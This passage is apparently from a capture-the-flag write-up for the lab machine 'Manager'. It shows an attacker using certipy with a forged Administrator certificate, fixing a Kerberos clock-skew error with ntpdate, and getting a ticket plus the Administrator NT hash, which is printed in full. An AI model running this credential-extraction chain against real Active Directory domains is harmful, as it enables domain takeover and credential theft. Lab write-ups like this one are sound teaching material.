 A certificate was obtained for the domain Administrator user.

![](img/manager11.png)

You use the certificate to authenticate with the Domain Controller as an "Administrator" user and obtain a ticket for that user.

```shell
$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

You get the error "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)". This is a typical error that occurs when the Linux machine's time is not synchronized with the Domain Controller's time. "npdate" can be used to synchronize the time.

The command is repeated by synchronizing the time with the Domain Controller.

```shell
$ sudo ntpdate 10.10.11.236 && certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
2024-02-15 01:03:32.997657 (+0100) +25202.003228 +/- 0.023484 10.10.11.236 s1 no-leap
CLOCK: time stepped by 25202.003228
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```
